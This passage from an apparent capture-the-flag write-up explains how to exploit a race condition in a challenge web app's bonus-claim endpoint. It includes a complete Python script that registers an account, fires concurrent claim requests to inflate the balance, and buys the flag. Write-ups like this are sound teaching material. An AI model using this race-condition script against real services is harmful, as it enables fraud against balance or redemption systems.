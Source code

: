 After we know what to exploit, we can get to work for crafting the script. We need the script to do what a user would do.

1. Create user account
2. Redeem bonus
3. Buy the secret item
4. Display the result

Step 2 is our exploitation point and we need step 3 because we couldn't logged in.

> Actually we can logged in into another account. The way users view their profile is via the query tag `<url>?user=<username>` but there is a catch. You'll need to be logged in first with another account since it checks if you have like a token to verify if you're logged in. You won't be able to access the dashboard if you haven't register an account yet. You can also buy the flag via that way too if you decide to exploit seperately.
{: .prompt-tip}

Since we are going to automate instead, might as well we automate all of them.

I have created a python script (yay go python) that automates all of this.

```python
import requests
from concurrent.futures import ThreadPoolExecutor
import re

BASE = "<ip address>"  # change this to the actual host
USERNAME = "randomuser1234" # any username will do
session = requests.Session()

print("ready")

# Register the user
session.post(f"{BASE}/register", data={"username": USERNAME})

print("registered! attempting")

# Race the /claim endpoint
def claim():
    return session.post(f"{BASE}/claim")

with ThreadPoolExecutor(max_workers=10) as executor:
    futures = [executor.submit(claim) for _ in range(10)]
    for future in futures:
        future.result()
        
print("task completed checking balance")

# Check the balance
dashboard = session.get(f"{BASE}/dashboard").text
balance_match = re.search(r"balance: <strong>\$(\d+)</strong>", dashboard)
balance = int(balance_match.group(1)) if balance_match else 0
print(f"[+] Current balance: ${balance}")

print("attempting to redeem flag")

# Redeem flag if enough money
if balance >= 3000:
    r = session.post(f"{BASE}/buy_flag")
    flag_match = re.search(r"UMCS\{.*?\}", r.text)
    if flag_match:
        print(f"[🏁] FLAG: {flag_match.group(0)}")
    else:
        print("[!] Flag not found in response.")
else:
    print("[!] Not enough balance to redeem the flag.")
```